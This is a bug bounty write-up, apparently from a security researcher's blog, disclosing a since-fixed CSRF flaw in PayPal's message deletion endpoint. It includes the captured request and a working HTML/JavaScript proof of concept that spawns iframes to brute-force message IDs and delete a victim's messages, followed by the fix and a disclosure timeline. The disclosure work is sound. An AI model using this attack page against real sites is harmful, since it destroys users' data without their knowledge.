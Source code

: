 ```yaml
---
layout: post
title:  "I could’ve deleted all SMC messages. using Brute Force Technique – PayPal"
---
```


While playing around with the SMC platform at paypal.com, I came across an interesting endpoint which doesn’t include CSRF token within its request when you delete a message. Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. With a little help from social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, in this case, a CSRF attack can force the user to delete all of his messages without the victim’s notice.

### PayPal Message Center [SMC]:

PayPal has created a Message Center for its customers like most financial institutions and eBay provides. The Message Center gives PayPal the ability to communicate with you within the framework of a new mailbox inside your PayPal account. It also provides you with a way to validate customer service emails that you may consider suspicious. This way, you can trust that the communications you receive are from PayPal itself. How does it work?

Emails from PayPal will be put into the Message Center. A notification will be sent to let you know that you have a message.

1. Open https://www.paypal.com/ma/selfhelp/contact/email/t_s
2. At the middle, select which issue/topic do you want to ask about.
3. Click “SEND”, then wait for them to reply with a solution/information

### The Interesting HTTP-Request:

```
GET /smc/delete-msg/?message_id=38223655 HTTP/1.1
Host: www.paypal.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: https://www.paypal.com/smc/customer
Cookie: **********************************************************
Connection: close
```

Apparently, there’s no CSRF token right there but there’s a message_id which definitely could replace the CSRFtoken on its job, due to its difficulty to be guessed.

## The Attack scenario/Proof of Concept:

The only way that could let us find the right message_id is to use a dynamic functionality written by JavaScript to brute force the message_id through the URL.

```
<html>
<body>
<div id="elementID"></div>
<script>
   for (var i=38223650; i<=38223800;i++) {
    var url = "https://www.paypal.com/smc/delete-msg/?message_id=";
      url = url + String(i);
      frame = document.createElement('iframe');
      frame.setAttribute('src', url);
      frame.setAttribute('width', '30px');
      frame.setAttribute('height', '50px');
      (document.getElementById('elementID')).appendChild(frame);
   }
</script>
</body>
</html>
```

Now, we just have to save this file as an HTML file and upload it to our server in order to send it to the victim. When the victim will access this page, it will create a few new iframes with the SRC attribute set to:


```
https://www.paypal.com/smc/delete-msg/?message_id=38223650
https://www.paypal.com/smc/delete-msg/?message_id=38223651
https://www.paypal.com/smc/delete-msg/?message_id=38223652
https://www.paypal.com/smc/delete-msg/?message_id=38223653
https://www.paypal.com/smc/delete-msg/?message_id=38223654
https://www.paypal.com/smc/delete-msg/?message_id=38223655
https://www.paypal.com/smc/delete-msg/?message_id=38223656
```

So, what’s happening here! When it creates an iframe of https://www.paypal.com/smc/delete-msg/?message_id= it’s going to use the number 38223650 as the value of the message_id parameter and submit the URL. Then it’s going to keep increment the value of the message_id by one more digit +1 until it covers all the messages inside the inbox/sent folder. I could also make this script start from 0 to 9999999.. which means there’s a high chance that the script will cover all valid message_id inside the victim’s account.

![](https://github.com/aelmokhtar/ayoubmokhtar.github.io/raw/master/_posts/images/post-1-image001.png)

The idea behind creating a new iframe is preferable because it takes less memory to process so chances of a crash are also less. And if it DOES the victim won’t control the browser until the script is done. Otherwise, the IFrames keep processing while the victim is waiting for the browser to be stabilized.


## How it got FIXED:

The PayPal security team resolved this issue using the most popular implementation to prevent the CSRF vulnerability, which is a secret/random token that is associated with a particular user called Anti-CSRF, then include it within every sensitive request that requires a server-side verification before authorizing any sensitive action.

![](https://github.com/aelmokhtar/ayoubmokhtar.github.io/raw/master/_posts/images/post-1-image002.png)

### Timeline:

- 15th of January 2018 – Bug reported.
- 24th of January 2018 – First response from PayPal, More Information Required –Researcher.
- 23rd of Mars 2018 – The vulnerability is fixed now.